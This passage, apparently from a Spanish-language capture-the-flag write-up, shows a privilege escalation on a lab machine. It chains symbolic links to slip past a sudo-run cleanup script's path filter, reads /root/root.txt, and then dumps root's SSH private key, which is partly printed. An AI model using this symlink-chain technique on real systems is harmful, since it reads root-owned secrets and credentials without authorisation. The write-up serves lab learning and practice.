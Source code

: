 Podemos desglosarlo un poco más y con la intención de leer el archivo "root.txt" del usurio root.

Creo un enlace simbólico llamado `test.txt` que apunta a `/root/root.txt`.
```shell
ln -s /root/root.txt test.txt
```


También creo otro enlace simbólico llamado `test.png` que apunta a `/home/bob/test.txt`, formando una cadena de enlaces:
test.png --> test.txt --> /root/root.txt
```shell
ln -s /home/bob/test.txt test.png
```

Ejecuto el script, pasando `*.png` como argumento y asignando `CHECK_CONTENT=true`.
```shell
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

El script recibe `test.png` como argumento y como termina en `.png`, se sigue ejecutando.

Verifica si `test.png` es un enlace simbólico, y lo es, así que continúa.

Obtenemos:
```shell
LINK_NAME=test.png
LINK_TARGET=/home/bob/test.txt (usando readlink)
```

Chequea si el LINK_TARGET contiene las palabras "etc" o "root":

```shell
echo "$LINK_TARGET" | grep -Eq '(etc|root)'
```

El valor es `/home/bob/test.txt` y mueve el enlace `test.png` a la carpeta `/var/quarantined`.

Como asigno `CHECK_CONTENT=true`, se intenta mostrar el contenido:

```shell
cat /var/quarantined/test.png
```

El script no está bien codificado para sanitizar los enlaces simbólicos, porque el destino directo del symlink (`/home/bob/test.txt`) no contiene “root” o "etc" en su ruta pero como `test.png` apunta en cadena hasta `/root/root.txt` y hemos asginado `CHECK_CONTENT=true`, se termina imprimiendo el contenido del archivo en `/root`.


Teniendo en cuenta lo anterior, procedí a obtener la información del archivo `id_rsa` del directorio `/root/.ssh/id_rsa` con el fin de posteriormente conectarnos a través de SSH.

```shell
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa test.testing
bob@linkvortex:~$ ln -s /home/bob/test.testing test.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
Link found [ test.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
q2egYfeMmgI9IoM0DdyDKS4vG+lIoWoJEfZf+cVwaZIzTZwKm7ECbF2Oy+u2SD+X7lG9A6
V1xkmWhQWEvCiI22UjIoFkI0oOfDrm6ZQTyZF99AqBVcwGCjEA67eEKt/5oejN5YgL7Ipu
6sKpMThUctYpWnzAc4yBN/mavhY7v5+TEV0FzPYZJ2spoeB3OGBcVNzSL41ctOiqGVZ7yX
TQ6pQUZxR4zqueIZ7yHVsw5j0eeqlF8OvHT81wbS5ozJBgtjxySWrRkkKAcY11tkTln6NK
CssRzP1r9kbmgHswClErHLL/CaBb/04g65A0xESAt5H1wuSXgmipZT8Mq54lZ4ZNMgPi53
jzZbaHGHACGxLgrBK5u4mF3vLfSG206ilAgU1sUETdkVz8wYuQb2S4Ct0AT14obmje7oqS
0cBqVEY8/m6olYaf/U8dwE/w9beosH6T7arEUwnhAAAFiDyG/Tk8hv05AAAAB3NzaC1yc2
EAAAGBAJqR1YVddTFu3hrfVnidt61bqpVpzKRfhXJVmMKeEgAnAIpWXThfE6tnoGH3jJoC
PSKDNA3cgykuLxvpSKFqCRH2X/nFcGmSM02cCpuxAmxdjsvrtkg/l+5RvQOldcZJloUFhL
woiNtlIyKBZCNKDnw65umUE8mRffQKgVXMBgoxAOu3hCrf+aHozeWIC+yKburCqTE4VHLW
KVp8wHOMgTf5mr4WO7+fkxFdBcz2GSdrKaHgdzhgXFTc0i+NXLToqhlWe8l00OqUFGcUeM
```